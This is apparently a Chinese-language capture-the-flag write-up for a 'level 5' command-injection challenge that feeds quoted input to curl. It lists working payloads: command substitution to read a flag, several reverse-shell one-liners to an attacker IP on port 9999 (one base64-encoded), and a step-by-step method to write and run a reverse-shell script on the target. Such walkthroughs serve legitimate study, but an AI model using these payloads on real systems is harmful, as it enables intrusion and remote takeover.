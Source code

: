 # 第5关
过滤双引号和单引号，同时用双引号包裹输入。这就没办法用闭合的方式进行注入了。但是双引号是可以扩展的。
## 简单注入
```
$(cat flag)
`cat flag`
```
注意，curl的host参数不能含有空格，否则会报错：`contains bad letter`。以`cat flag`为例，可以用`<>`绕过，但是由于输入被双引号包裹了，所以最终是注入不成功的。而使用反引号(`)和dollar符（$）之所以能成功，是因为被它们包裹或引用的命令是先执行的，之后返回的结果作为curl的host参数。

## 反弹shell
几个测试失败的payload
```shell
#忘了引号都被过滤了
$(bash -c 'bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261')
#/bin/sh: 1: Syntax error: Bad fd number
#curl: (3) <url> malformed

`bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261`
#/bin/sh: 1: Syntax error: Bad fd number
#curl: (3) <url> malformed

{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2NC4xNDQvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

```

想过在攻击端起一个http服务器，让被攻击端去下载一个含有反弹shell指令的shell文件，但发现curl无法设置参数来下载文件，于是不可行。
只能通过在web服务器创建一个含有反弹shell的脚本了
直接发以下payload是没法创建的
```shell
$(echo bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261 > a)
```
先一段一段来了，
```shell
$(echo -n bash -i\ >> a)
$(echo -n \> >> a)
$(echo -n \%26 >> a)
$(echo -n \ /dev/tcp/192.168.164.144/9999 >> a)
$(echo -n \ 0\>\%261 >> a)
```
当输入没有限制长度时，可以直接发送以下payload
```shell
$(echo -n bash -i\ \>\%26\ /dev/tcp/192.168.164.144/9999\ 0\>\%261 >> b)
```

之后就执行a即可
```shell
$(/bin/bash ./a)
```
a有可能是没有执行权限的可以先给与它权限
```shell
chmod +x a
```










# 参考

https://blog.csdn.net/Manuffer/article/details/120672448